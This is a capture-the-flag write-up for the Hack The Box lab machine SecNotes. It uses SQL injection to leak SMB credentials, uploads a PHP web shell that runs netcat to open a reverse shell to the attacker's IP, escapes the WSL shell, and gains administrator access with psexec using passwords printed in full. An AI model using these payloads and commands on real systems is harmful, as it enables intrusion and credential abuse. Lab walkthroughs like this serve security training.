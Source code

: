 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (2).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (4).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
